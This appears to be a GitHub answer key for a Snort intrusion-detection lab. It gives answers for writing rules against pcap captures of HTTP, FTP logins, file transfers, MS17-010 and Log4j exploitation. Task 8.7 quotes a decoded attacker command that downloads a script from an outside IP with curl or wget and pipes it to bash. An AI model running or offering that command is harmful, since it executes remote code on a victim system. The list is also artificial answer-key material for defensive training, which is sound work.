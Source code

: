 # Snort-Challenge---The-Basics
Task 1:
1.1	Correct Answer: No answer needed
--¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬-----


Task2:
2.1	Write rules to detect "all TCP port 80 traffic" packets in the given pcap file. 
What is the number of detected packets?
Note: You must answer this question correctly before answering the rest of the questions in this task.
Correct Answer: 328
Investigate the log file.
2.2	What is the destination address of packet 63?
Correct Answer: 145.254.160.237
Investigate the log file.
2.3	What is the ACK number of packet 64?
Correct Answer: 0x38AFFFF3
Investigate the log file.
2.4	What is the SEQ number of packet 62?
Correct Answer: 0x38AFFFF3
Investigate the log file.
2.5	What is the TTL of packet 65?
Correct Answer:128
Investigate the log file.
2.6	What is the source IP of packet 65?
Correct Answer: 145.254.160.237
Investigate the log file.
2.7	What is the source port of packet 65?
Correct Answer: 3372

--¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬-----

Task 3

Write rules to detect "all TCP port 21"  traffic in the given pcap.
3.1	What is the number of detected packets?
Correct Answer:614
Investigate the log file.
3.2	What is the FTP service name?
Correct Answer: Microsoft FTP Service
Clear the previous log and alarm files.

Deactivate/comment on the old rules.
Write a rule to detect failed FTP login attempts in the given pcap.
3.3	What is the number of detected packets?
Correct Answer:41
Clear the previous log and alarm files.

Deactivate/comment on the old rule.
Write a rule to detect successful FTP logins in the given pcap.
3.4	What is the number of detected packets?
Correct Answer:1
Clear the previous log and alarm files.

Deactivate/comment on the old rule.
Write a rule to detect failed FTP login attempts with a valid username but a bad password or no password.
3.5	What is the number of detected packets?
Correct Answer:42
Clear the previous log and alarm files.

Deactivate/comment on the old rule.
Write a rule to detect failed FTP login attempts with "Administrator" username but a bad password or no password.
3.6	What is the number of detected packets?
Correct Answer:7
--¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬-----
Task 4
Write a rule to detect the PNG file in the given pcap.
4.1	Investigate the logs and identify the software name embedded in the packet.
Correct Answer: Adobe ImageReady
Clear the previous log and alarm files.

Deactivate/comment on the old rule.
Write a rule to detect the GIF file in the given pcap.
4.2	Investigate the logs and identify the image format embedded in the packet.
Correct Answer: GIF89a

--¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬-----
Task 5:
Write a rule to detect the torrent metafile in the given pcap.
5.1	What is the number of detected packets?
Correct Answer:2
Investigate the log/alarm files.
5.2	What is the name of the torrent application?
Correct Answer:bittorrent
Investigate the log/alarm files.
5.3	What is the MIME (Multipurpose Internet Mail Extensions) type of the torrent metafile?
Correct Answer: application/x-bittorrent
Investigate the log/alarm files.
5.4	What is the hostname of the torrent metafile?
Correct Answer: tracker2.torrentbox.com
--¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬-----
Task6:
You can test each ruleset with the following command structure;
sudo snort -c local-X.rules -r mx-1.pcap -A console
Fix the syntax error in local-1.rules file and make it work smoothly.
6.1	What is the number of the detected packets?
Correct Answer:16
Fix the syntax error in local-2.rules file and make it work smoothly.
6.2	What is the number of the detected packets?

Correct Answer:68
Fix the syntax error in local-3.rules file and make it work smoothly.
6.3	What is the number of the detected packets?

Correct Answer:87
Fix the syntax error in local-4.rules file and make it work smoothly.
6.4	What is the number of the detected packets?

Correct Answer:90
Fix the syntax error in local-5.rules file and make it work smoothly.
6.5	What is the number of the detected packets?

Correct Answer:155
Fix the logical error in local-6.rules file and make it work smoothly to create alerts.
6.6	What is the number of the detected packets?

Correct Answer:2
Fix the logical error in local-7.rules file and make it work smoothly to create alerts.
6.7	What is the name of the required option:
Correct Answer: msg
--¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬-----

Task 7:
Use the given rule file (local.rules) to investigate the ms1710 exploitation.
7.1	What is the number of detected packets?
Correct Answer: 25154
Clear the previous log and alarm files.
Use local-1.rules empty file to write a new rule to detect payloads containing the "\IPC$" keyword.
7.2	What is the number of detected packets?
Correct Answer:12
Investigate the log/alarm files.
7.3	What is the requested path?
Correct Answer: \\192.168.116.138\IPC$
7.4	What is the CVSS v2 score of the MS17-010 vulnerability?
Correct Answer: 9.3

--¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬-----
Task 8:
Use the given rule file (local.rules) to investigate the log4j exploitation.
8.1	What is the number of detected packets?
Correct Answer: 26
Investigate the log/alarm files.
8.2	How many rules were triggered?.
Correct Answer:4
Investigate the log/alarm files.
8.3	What are the first six digits of the triggered rule sids?
Correct Answer:210037
Clear the previous log and alarm files.
Use local-1.rules empty file to write a new rule to detect packet payloads between 770 and 855 bytes.
8.4	What is the number of detected packets?
Correct Answer:41
Investigate the log/alarm files.
8.5	What is the name of the used encoding algorithm?
Correct Answer:base64
Investigate the log/alarm files.
8.6	What is the IP ID of the corresponding packet?
Correct Answer:62808
Investigate the log/alarm files.
Decode the encoded command.
8.7	What is the attacker's command?
Correct Answer: (curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash

8.8	What is the CVSS v2 score of the Log4j vulnerability?
Correct Answer: 9.3
--¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬--------¬-----
Task9:
Correct Answer: No answer needed





![image](https://github.com/neharidha/Snort-Challenge---The-Basics/assets/53006290/37e0b699-83d3-488d-a251-2b62906eabb3)
